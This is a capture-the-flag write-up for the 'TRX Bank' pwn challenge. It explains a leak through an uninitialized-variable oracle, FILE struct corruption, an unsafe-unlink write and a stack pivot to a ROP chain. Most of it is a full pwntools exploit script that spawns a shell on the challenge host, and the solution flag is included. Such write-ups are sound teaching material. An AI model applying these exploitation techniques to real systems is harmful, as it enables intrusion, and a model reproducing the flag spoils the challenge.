 ```yaml
---
title: TRX CTF 25 - TRX Bank
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- pwn
- file struct
authors:
- Erge
---
```


## Description

To all our Valued Customers, at TRX Bank we aim to provide only the top-notch banking and customer experience;\
all reports about so-called "data leaks" are baseless slander from our competitors.

**DISCLAIMER**: Please test your solve locally before spawning a remote instance of the challenge!

## Overview of the challenge

The challenge allows us to create/delete bank accounts and make transfers/deposits,
there's also a `secret_backdoor` function, which we can access only after successfully leaking pie, which allows us to overwrite part of the `fp_rand` file struct used to create random IBANs
## Solution

The first step to solving the challenge is noticing a missing check in the `transfer` function, we can make the `scanf` call that asks the transfer amount fail, allowing us to use the uninitialized variable as an oracle, we can then binary search that value against our account balance.\
This allows us to leak pie/heap/libc/stack by making the binary reach different functions before transferring (see [solve.py](solve/solve.py) for details)

The second step involves overwriting the `prev_chain` and `chain` fields of the file struct, allowing us to perform an `unsafe-unlink` to gain a limited `write-what` primitive, the catch is that both the write and the what must be writeable addresses\
One possible solution is to overwrite a saved `rbp` on the stack and pivot to a controlled location.

The last thing we need is a place to store our rop-chain, i opted for writing it to the heap by overwriting the `_fileno` to stdin and creating new IBANs

## Solve Script

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")

context.binary = exe

DOCKER_PORT = 3317
REMOTE_NC_CMD    = "nc bank.ctf.theromanxpl0.it 7010"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
b *transfer+334
"""

def conn():
    if args.LOCAL:
        return process([exe.path])
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    if args.DOCKER:
        return remote("localhost", DOCKER_PORT)
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def main():
    r = conn()

    def malloc():
        r.sendline(b"2")
        r.recvuntil(b"your IBAN is ")
        ret = r.recv(31)
        r.recvuntil(b">")
        return ret

    def free(IBAN):
        r.sendline(b"3")
        r.recvuntil(b"Please enter your IBAN:")
        r.send(IBAN)
        r.recvuntil(b">")

    def deposit(IBAN, n):
        r.sendline(b"4")
        r.send(IBAN)
        r.sendline(bstr(n))
        r.recvuntil(b">")

    def transfer(src, dst, n):
        r.sendline(b"5")
        r.send(src)
        r.send(dst)
        r.sendline(n)
        r.recvuntil(b"How much do you want to transfer?\n")
        ret = r.recvline()
        r.recvuntil(b">")
        return ret

    def spray_heap(data=None):
        if data==None:
            r.send(b"AA")
            r.recvuntil(b">")
            return

        for i in range(0, len(data), 0x2):
            r.send(data[i:i+2])
            r.recvuntil(b">")

    def backdoor(addr, data=None):
        r.sendline(b"6")
        r.sendline(hex(addr).encode())
        r.send(data)
        r.recvuntil(b">")

    def binary_search(l, r, type=None):
        mid = (l+r)//2

        free(n[0])
        n[0] = malloc()
        deposit(n[0], mid)
        if type == "STACK":
            fp = FileStructure()
            fp.fileno = 3
            fp._lock = exe.bss(0x300)
            backdoor(exe.sym.secret_backdoor, bytes(fp)[0x60:0x60+0x77])
        elif type == "HEAP":
            n[0x1f] = malloc()
            free(n[0x1f])
        elif type == "LIBC":
            spray_heap()

        res = transfer(n[0], n[1], b"-")

        if l>=r:
            return mid
        elif b"insufficient" in res:
            l=mid+1
        elif b"completed" in res:
            r=mid-1
        return binary_search(l,r, type)

    '''
    USE UNINITIALIZED VARIABLE AS AN ORACLE TO LEAK PIE/HEAP/LIBC
    '''
    n = []
    for i in range(0x2):
        n.append(malloc())

    exe.address = binary_search(0, 2**48) - exe.sym.deposit - 225
    log.info(f"PIE @ {hex(exe.address)}")
    stack = binary_search(0, 2**48, "STACK")
    log.info(f"STACK @ {hex(stack)}")

    for i in range(0x1d):
        n.append(malloc())
    n.append(0)

    heap = binary_search(0, 2**48, "HEAP") - 0x1a30
    log.info(f"HEAP @ {hex(heap)}")

    libc.address = binary_search(0, 2**48, "LIBC") - libc.sym.puts - 474
    log.info(f"LIBC @ {hex(libc.address)}")

    '''
    UNSAFE UNLINK TO OVERWRITE SAVED RBP AND ROP
    '''

    fp = FileStructure()
    fp.fileno = 0
    fp._lock = exe.bss(0x300)
    fp.chain = heap+0x5a0 #our saved ropchain on the heap
    fp.unknown2 = p64(0)*2 + p64(stack-0x168) + p64(-1, signed=True) + p64(0) #prevchain and the saved rbp on the stack

    backdoor(exe.sym.secret_backdoor, bytes(fp)[0x60:0x60+0x77])

    rop2 = ROP(libc)
    rop2.rdi = libc.binsh()
    rop2.raw(rop2.ret.address)
    rop2.raw(libc.sym.system)

    rop = ROP(libc)
    rop.raw(b"A"*0xf8)
    rop.read(0, stack-0x200, len(rop2.chain()))
    rop.rsp = stack-0x200

    for i in range(11):
        free(malloc())
    r.sendline(b"2")
    r.send(b"\0"*15)
    r.recvuntil(b">", timeout=2)
    free(n[0])

    r.sendline(b"2")
    r.send((rop.chain()))
    #gdb.attach(r, gdbscript="b fclose\nb *leave+97\nc")
    fp = FileStructure()
    fp.fileno = 3
    fp._lock = exe.bss(0x300)
    fp.chain = heap+0x5a0 #our saved ropchain on the heap
    fp.unknown2 = p64(0)*2 + p64(stack-0x168) + p64(-1, signed=True) + p64(0) #prevchain and the saved rbp on the stack

    r.recvuntil(b">")
    backdoor(exe.sym.secret_backdoor, bytes(fp)[0x60:0x60+0x77])
    r.sendline(b"7")
    r.recvuntil(b"We're sorry ")
    r.send(rop2.chain())

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag

`TRX{un54f3_unl1nk_15_n07_f0r_7h3_h34p_0nly_a4b62c68}`
